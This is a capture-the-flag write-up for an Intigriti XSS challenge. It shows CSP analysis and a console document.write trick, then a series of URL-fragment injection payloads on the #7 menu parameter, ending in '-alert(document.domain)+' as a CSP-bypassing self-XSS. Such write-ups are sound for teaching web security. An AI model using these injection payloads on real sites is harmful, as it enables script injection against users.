# Intigriti Challenge

## Challenge no Burp

[https://challenge.intigriti.io/](https://challenge.intigriti.io/)

1\) **Inspector Tab**

* Check Sources for files \(here index and script.js\)

2\) **Network Tab**

* Apps is using a CSP \(Content-Security-Policy\) used as a protection against XSS



[https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) = CSP Evaluator allows developers and security experts to check if a Content Security Policy \(CSP\) serves as a strong mitigation against cross-site scripting attacks.



* In that case, default-src means that any JS file hosted on the server will be executed.

3\) **Console tab**

```text
var jsLocation = "https://challenge.intigriti.io/script.js";
undefined
var cspBypass = `<script src="${jsLocation}"></script>`;
undefined
document.write(cspBypass);
```

We can confirm that js will work if it's loaded using a server resource \(js file\)

4\) **Dynamic content**

We only dynamic content of the website is the following menu :




Back in Element Tab, we can check what is it all about :



* 1 to 6, what about 7 ? :\) `https://challenge.intigriti.io/#7` 



* Check for reflexion : `https://challenge.intigriti.io/#7polo`



**Test injection** `https://challenge.intigriti.io/#7polo<script%20src=script.js>`



* Network tab 

404 strange error



* Copy paste the error output in the console \(weird but it's javascript\)...



Inject Quotes :



But no error with double quotes.

Inject int and quote :

`https://challenge.intigriti.io/#7polo'+404+'`



* Inject alert script :

  `https://challenge.intigriti.io/#7polo'-alert(document.domain)+'`



Self XSS by CSP bypassed :





